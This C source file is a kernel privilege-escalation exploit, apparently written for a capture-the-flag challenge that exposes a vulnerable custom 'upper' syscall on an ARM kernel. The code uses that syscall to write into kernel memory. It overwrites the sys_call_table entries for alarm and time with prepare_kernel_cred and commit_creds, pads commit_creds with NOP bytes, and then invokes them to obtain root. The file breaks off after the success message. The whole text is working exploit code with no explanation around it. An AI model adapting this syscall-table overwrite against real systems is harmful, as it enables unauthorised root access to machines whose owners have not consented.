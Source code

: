 ```c
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <string.h>
#include <stdlib.h>

#define __NR_upper 223
#define __NR_alarm 37
#define __NR_time 201

#define SYS_CALL_TABLE 0x8000e348
#define COMMIT_CREDS 0x8003f560

int main() {
    /*
    char input[] = "hello world!";
    char output[100] = { 0 };

    long result = syscall(__NR_upper, input, output);

    if (result == 0) {
        printf("Original: %s\n", input);
        printf("Uppercase: %s\n", output);
    }
    else {
        perror("syscall failed");
    }
    */

    long result;

    // override alarm syscall to prepare_kernel_cred
    result = syscall(__NR_upper, "\x24\xf9\x03\x80", SYS_CALL_TABLE + (37 * 4));
    if (result == 0) {
        printf("Successfully overrode the alarm syscall\n");
    }
    else {
        perror("syscall failed\n");
    }

    // fill the 12 bytes before commit_creds with NOP to change its address
    result = syscall(__NR_upper, "\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1", COMMIT_CREDS);
    if (result == 0) {
        printf("Successfully filled commit_creds with NOP\n");
    }
    else {
        perror("NOP filling failed\n");
    }
    
    // override time syscall to commit_creds
    result = syscall(__NR_upper, "\x60\xf5\x03\x80", SYS_CALL_TABLE + (201 * 4));
    if (result == 0) {
        printf("Successfully overrode the time syscall\n");
    }
    else {
        perror("syscall failed\n");
    }
    
    result = syscall(__NR_time, syscall(__NR_alarm, 0));
    if (result == 0) {
        printf("Successfully committed kernel creds!\n");
        printf("You should now have root privileges\n");

```
